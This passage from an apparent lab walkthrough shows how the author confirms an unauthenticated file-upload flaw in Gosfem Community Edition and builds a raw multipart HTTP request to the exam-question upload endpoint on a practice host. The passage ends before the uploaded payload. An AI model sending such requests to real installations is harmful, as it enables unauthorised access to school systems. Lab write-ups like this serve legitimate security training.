 We take note of the `/management` directory in the output, and viewing the page in a web browser reveals the following login page:

![login](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_3_JH4GT7LQ.png)

login

We begin by attempting to fingerprint the application and google search for "Gosfem Community Edition".

We find a download for it here: https://sourceforge.net/projects/gosfem/.

Downloading the source, we see that there are default credentials set which we are unable to authenticate with upon testing.

Our next attempt is to check for any public exploits. We discover the following public exploit: https://www.exploit-db.com/exploits/50587.

However the exploit doesn't state whether it requires authentication. We can manually confirm that the exploit does not require authentication by viewing the source code:

We see the following function causing the unrestricted file upload:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_4_IQ2D49KM.png)

After going through the references of this file, we discover:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_5_KF4SW2D9.png)

We see that at no point some ace of authorization/ authentication checks place.

Thus confirms that we do not need a session to exploit it (in contrast to what the public exploit indicates).

In order to establish our foothold, we must slightly adjust the raw HTTP request given in the exploit (wrong newlines, path).

The final request might look similar to this:

```
POST /management/admin/examQuestion/create HTTP/1.1
Host: school.pg
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------183813756938980137172117669544
Content-Length: 1330
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1

-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="name"

test4
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="class_id"

2
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="subject_id"

5
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="timestamp"

2021-12-08
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="teacher_id"

```